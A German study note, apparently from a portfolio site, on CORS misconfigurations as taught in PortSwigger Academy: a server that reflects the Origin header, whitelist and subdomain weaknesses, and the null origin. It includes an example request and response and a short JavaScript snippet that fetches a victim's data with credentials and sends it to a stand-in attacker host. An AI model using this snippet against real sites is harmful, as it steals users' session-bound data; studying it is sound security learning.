

repository: IamNico42/portfolio · page: studium/Cyber-Security Praxissemester/Portswigger-Academy/Cross-Origin Resource Sharing/2. CORS Vulnerabilities/index.html · generator: mkdocs

---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/PSS
---
## Server-generated ACAO header from client-specified Origin header

Wenn ein Server einfach den `Origin`-Header zurückspiegelt, ohne zu prüfen, ob die Origin wirklich erlaubt ist, ist er verwundbar. Richtig sicher ist:

- Entweder gar kein Cross-Origin-Zugriff auf sensitive Endpunkte,
- oder nur für eine **klar definierte Allowlist (Whitelist)** von Origins — **niemals** blind reflektieren.

##### Warum das Reflektieren von `Origin` gefährlich ist

- Der Browser vertraut dem `Access-Control-Allow-Origin`-Header: wenn der Server dort z. B. `https://attacker.com` schreibt **und** `Access-Control-Allow-Credentials: true` gesetzt ist, dann darf `attacker.com` die Antwort inkl. Cookies/Session-Daten in ihrem JavaScript lesen.
- Wenn man `Origin` ungeprüft zurückgibt, kann jede beliebige Website (malicious) im Browser eines eingeloggten Opfers Daten abfragen und auslesen. 
- Selbst wenn man eine **Whitelist** hat können diese einfach als Origin gesetzt werden - wenn diese ungeprüft reflektiert wird, dann kann man darüber Injektionen einschleusen.
- **SUB-Domains** können teilweise auch automatisch whitelisted sein. D. h. man könnte im Zweifel seine eigene Domain anmelden die wie eine SUB-Domain der Target-Domain aufgebaut ist.
- **NULL Origin** kann ebenfalls Wirkung zeigen wenn etwas falsch konfiguriert ist. Browser senden den Wert `null` im `Origin`-Header in verschiedenen ungewöhnlichen Situationen:
	- Cross-Origin-Redirects.
	- Anfragen aus serialisierten Daten.
	- Anfragen über das `file:`-Protokoll.
	- Sandboxed Cross-Origin-Anfragen.

=== "Request"

	```html
	REQUEST:
	GET /sensitive-victim-data
	HTTP/1.1 Host: vulnerable-website.com
	Origin: https://malicious-website.com
	Cookie: sessionid=...
	```
=== "Response"

	```html
	RESPONSE:
	HTTP/1.1 200 OK 
	Access-Control-Allow-Origin: https://malicious-website.com Access-Control-Allow-Credentials: true ...
	```
=== "Kleines-Script"

	```html
	var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send();
	function reqListener() { 
		location='//malicious-website.com/log?key='+this.responseText; 
	};
	```
